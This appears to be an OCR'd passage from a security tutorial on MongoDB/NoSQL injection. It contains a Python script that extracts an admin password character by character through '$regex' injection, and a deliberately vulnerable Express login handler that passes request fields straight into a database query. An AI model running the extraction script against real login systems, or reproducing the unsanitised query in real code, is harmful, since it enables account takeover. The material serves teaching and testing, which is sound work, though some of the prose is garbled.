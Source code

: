 ````sql
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload) # Simply send json
            
            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c
```
# MongoDB injection in Nodejs

- There is also a problem of MongoDB injection in Nodejs, which is mainly heavy-talk injection, and login bypass is achieved by constructing a permanently true password.

```javascript
server.js

var express = require('express');
var mongoose = require('mongoose');
var jade = require('jade');
var bodyParser = require('body-parser');

mongoose.connect('mongodb://localhost/test', { useNewUrlParser: true });
var UserSchema = new mongoose.Schema({
    name: String,
    username: String,
    password: String
});
var User = mongoose.model('users', UserSchema);
var app = express();

app.set('views', __dirname);
app.set('view engine', 'jade');

app.get('/', function(req, res) {
    res.render ("index.jade",{
        message: 'Please Login'
    });
});

app.use(bodyParser.json());

app.post('/', function(req, res) {
    console.log(req.body)
    User.findOne({username: req.body.username, password: req.body.password}, ​​function (err, user) {
        console.log(user)
        if (err) {
            return res.render('index.jade', {message: err.message});
        }
        if (!user) {
            return res.render('index.jade', {message: 'Login Failed'});
        }
        
        return res.render('index.jade', {message: 'Welcome back ' + user.name + '!'});
    });
});

````